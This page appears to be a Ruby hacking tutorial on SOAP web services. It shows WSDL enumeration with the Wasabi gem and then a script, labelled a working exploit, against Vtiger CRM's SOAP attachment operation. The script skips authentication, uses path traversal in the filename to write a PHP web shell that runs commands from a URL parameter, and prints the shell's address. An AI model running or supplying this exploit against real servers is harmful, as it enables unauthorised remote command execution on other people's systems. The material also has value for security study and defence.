 # Interacting with Web Services

### SOAP - WSDL
Generally speaking, dealing with SOAP means dealing with XMLs that which WSDL describes how to use that SOAP. Ruby has really elegant way to do so and let's to get our hand dirty with an exploit

```
gem install wasabi savon httpclient 
```

#### Enumeration

```ruby
require 'wasabi'

url = "http://www.webservicex.net/CurrencyConvertor.asmx?WSDL"

document = Wasabi.document url

# Parsing the document 
document.parser

# SOAP XML
document.xml

# Getting the endpoint 
document.endpoint

# Getting the target namespace
document.namespace

# Enumerate all the SOAP operations/actions
document.operations

# Enumerate input parameters for particular operation
document.operation_input_parameters :conversion_rate

```

#### Interaction 

```ruby

```




#### Hacking via SOAP vulnerabilities 

This is a working exploit for Vtiger CRM SOAP from Auth-bypass to Shell upload 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client 
client = Savon::Client.new(wsdl: url)

# List all avialable operations 
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment, 
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING", 
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id"

```

More about [Savon][1]










<br><br><br>
---
[1]: http://savonrb.com/

